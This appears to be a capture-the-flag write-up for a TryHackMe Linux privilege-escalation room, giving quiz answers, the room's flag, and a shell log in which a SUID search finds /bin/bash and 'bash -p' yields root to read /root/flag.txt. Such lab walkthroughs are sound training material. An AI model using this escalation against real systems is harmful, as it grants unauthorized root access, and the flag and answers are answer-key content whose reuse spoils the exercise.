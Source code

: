 
- What type of privilege escalation involves using a user account to execute commands as an administrator?
```
vertical
```
- What is the name of the file that contains a list of users who are a part of the sudo group
```
sudoers
```
- What are the contents of the file located at /root/flag.txt?
```
thm{2fb10afe933296592}
```
```
bash-4.4$ find / -type f -perm -u=s 2>/dev/null                                                                                                                                       
/bin/umount                                                                                                                                                                            
/bin/mount                                                                                                                                                                             
/bin/su                                                                                                                                                                                
/bin/fusermount                                                                                                                                                                        
/bin/bash                                                                                                                                                                              
/bin/ping          
bash -p

bash-4.4# cd /root
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt 
thm{2fb10afe933296592}
bash-4.4# whoami
root
bash-4.4# id
uid=1000(cmnatic) gid=1000(cmnatic) euid=0(root) groups=1000(cmnatic),24(cdrom),30(dip),46(plugdev)
bash-4.4# 

```
